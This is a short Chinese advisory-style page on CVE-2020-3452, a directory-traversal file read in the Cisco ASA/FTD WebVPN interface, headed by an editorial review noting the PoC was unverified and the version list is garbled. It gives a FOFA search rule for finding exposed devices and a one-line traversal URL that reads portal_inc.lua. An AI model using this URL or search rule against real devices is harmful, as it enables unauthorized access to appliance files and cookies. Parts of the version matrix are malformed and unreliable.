

# （CVE-2020-3452）CISCO ASA远程任意文件读取

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Cisco ASA/FTD WebVPN
- 本文讨论：CVE-2020-3452
- 版本、权限与配置前提：未认证Web目录内读取，非全文件系统；版本矩阵存在格式损坏
- 资料类型：短PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题任意文件读取范围过宽，正文明确只Web目录
- version元数据仅表头、fofa仅检索规则
- 版本列表9.71疑排版错误，Migrate to文字嵌入&lt;比较式，不可机器理解
- 无原始来源链接、配置前提与修复说明不足
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- WebVPN配置前提和版本矩阵待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 简介

Cisco Adaptive Security Appliance (ASA)
防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的web管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞。攻击者只能查看web目录下的文件，无法通过该漏洞访问web目录之外的文件。该漏洞可以查看webVpn设备的配置信息，cookies等。

## 影响版本

```
Cisco ASA 设备影响版本: 
<9.6.1 
9.6 < 9.6.4.42 
9.71 
9.8 < 9.8.4.20 
9.9 < 9.9.2.74 
9.10 < 9.10.1.42 
9.12 < 9.12.3.12 
9.13 < 9.13.1.10 
9.14 < 9.14.1.10 
Cisco FTD设备影响版本： 
6.2.2 
6.2.3 < 6.2.3.16 
6.3.0 < Migrate to 6.4.0.9 + Hot Fix or to 6.6.0.1 
6.4.0 < 6.4.0.9 + Hot Fix 
6.5.0 < Migrate to 6.6.0.1 or 6.5.0.4 + Hot Fix (August 2020) 
6.6.0 < 6.6.0.1 
```

FOFA检索规则
FOFA: “webVpn”


## 漏洞复现

```
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

